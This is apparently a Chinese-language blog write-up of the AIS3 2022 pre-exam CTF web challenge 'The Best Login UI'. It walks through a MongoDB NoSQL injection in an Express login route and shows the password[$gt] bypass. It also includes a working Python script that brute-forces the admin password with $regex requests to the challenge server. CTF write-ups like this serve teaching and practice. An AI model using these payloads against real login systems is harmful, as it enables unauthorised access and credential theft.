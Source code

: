 ```yaml
---
layout: post
title: NoSQL Injection - AIS3 2022 pre-exam The Best Login UI
tags: [CTF, web]
---
```

> 我做ㄌ世界上最棒的登入介面，現在給你看看 ><

![best-login-ui]({{"/assets/img/posts/ais3-2022/best-login-ui.png" | relative_url}}){:style="max-height: 800px; display: block; margin: auto"}

~~好啦比[去年的](https://blog.ovo.anderwei.net/archives/548)強~~

## 解題
這題是NoSQL Injection，從`app.js`可以看到問題在哪裡
```javascript
app.post('/login', async (req, res) => {
  const db = app.get('db');
  const { username, password } = req.body;
  console.log({username, password});
  const user = await db.collection('users').findOne({ username, password });
  if (user) {
      res.send('Success owo!');
  } else {
      res.send('Failed qwq');
  }
});
```

`findOne`這樣寫會被注入，可以在`password`用`{$gt: ""}`之類的東西把登入的部份bypass掉，像是`{username: "admin", password: {$gt: ""}}`

在ExpressJS中，發request的時候在對應欄位加`[]`可以寫一個object進去（這是由於ExpressJS中的[body-parser](https://www.npmjs.com/package/body-parser)使用[qs](https://www.npmjs.com/package/qs)去parse request body的關係）
> qs allows you to create nested objects within your query strings, by surrounding the name of sub-keys with square brackets `[]`. For example, the string `'foo[bar]=baz'` converts to:
> ```javascript
> assert.deepEqual(qs.parse('foo[bar]=baz'), {
>   foo: {
>     bar: 'baz'
>   }
> });
> ```

也就是說要得到那樣的輸入，在發request時用`username=admin&password[$gt]=""`就可以了

但這題沒有那麼簡單，就算成功登入後也拿不到flag，所以猜測flag其實是密碼，要用另外一個方法把密碼爆出來

爆密碼要用`$regex`去做，原理是猜當前的字元後用`+`結尾，如果成功登入就代表猜對字，反之就是猜錯

但regex就是難在有些保留字元要記得escape掉

解題script如下~~，可以看出我當初在哪裡痛苦很久~~
```python
import requests
import string

valid_input = string.printable[:-5] # FUCK SPACE IS ACTUALLY IN THE FLAG?
# flag = 'A153{'
flag = 'AIS3{Bl1nd-b4s3d'

# https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/
while True:
  for c in valid_input:
    data = {
      'username': 'admin',
      'password[$regex]': flag + ("\\" if c in "+*?^$\.[]{}()|/\\" else "") + c + "+"
    }
    print(data['password[$regex]'])
    # r = requests.post('http://localhost:54088/login', data=data)
    r = requests.post('http://chals1.ais3.org:54088/login', data=data)
    if 'owo' in r.text:
      flag += (("\\" if c in "+*?^$\.[]{}()|/\\" else "") + c)
      print(flag)
      if c == '}': exit(0)
      else: break
  print('====================================\n')

# AIS3{Bl1nd-b4s3d r3gex n0sq1i?! (:3[___]}
```

~~NoSQL injection比SQL injection有趣多了~~

後記：在打完之後跟Ander討論的時候，他講我才知道，原來題目的`index.html`就有放input space~~，哭啊~~
```html
<script>
function baseConvert(number) {
  const DIGITS = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ ';
  const base = DIGITS.length;
  let str = '';
  let value = number;
  while (value > 0) {
    str = DIGITS[value % base] + str;
    value = Math.floor(value / base);
  }
  return str;
  }

  document.getElementById('username_input').oninput = function () {
    document.querySelector('input[name="username"]').value = baseConvert(this.value);
  };

  document.getElementById('password_input').oninput = function () {
    document.querySelector('input[name="password"]').value = baseConvert(this.value);
  };
</script>
```

## 參考資料
- [Hacking NodeJS and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
- [MongoDB - Extracting data (admin password) using NoSQL Injection - MMACTF 2016 Web 100 writeup \| Blog - 0daylabs](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/)